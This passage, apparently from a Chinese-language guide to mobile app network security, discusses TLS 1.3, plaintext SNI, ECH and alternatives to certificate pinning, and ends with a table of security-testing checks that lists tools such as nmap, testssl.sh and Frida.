TLS 1.3 加密了几乎整个握手过程（包括 Server Certificate），这使得传统中间人攻击更加困难。但 SNI（Server Name Indication）仍然明文传输：

```text
ClientHello 中的 SNI: api.example.com  <-- 明文，可被网络运营商看到
```

ECH（Encrypted Client Hello）标准正在推进中，目标是加密 SNI，但截至目前尚未广泛部署。

#### Certificate Pinning 的替代方案

除了传统的 SSL Pinning，还可以考虑以下方案：

- **DAA（Device Attestation API）**：验证设备完整性
- **App Bound Domains（iOS 14+）**：限制 WKWebView 可访问的域名
- **Private Access Tokens**：基于隐私保护的客户端验证

#### 网络安全测试检查清单

| 检查项 | 严重等级 | 测试方法 |
|-------|---------|---------|
| 是否强制使用 HTTPS | 高 | 抓包分析 + 静态配置检查 |
| TLS 版本是否 >= 1.2 | 高 | nmap/testssl.sh 扫描 |
| 是否存在弱密码套件 | 高 | nmap ssl-enum-ciphers |
| 是否实施 SSL Pinning | 中 | Frida 绕过测试 |
| Pinning 实现是否可被绕过 | 高 | 多种绕过技术测试 |
| 证书验证是否完整 | 高 | 自签名证书测试 |
| API 认证机制是否安全 | 高 | JWT/OAuth 配置审查 |
| 是否存在敏感数据明文传输 | 高 | 流量解密分析 |
| 安全头是否完整 | 中 | curl -I 检查 |
| WebView 是否安全配置 | 高 | 静态代码审查 |
| CT 日志是否正常 | 低 | crt.sh 查询 |
| Token 存储是否安全 | 高 | Frida 监控 + 静态分析 |
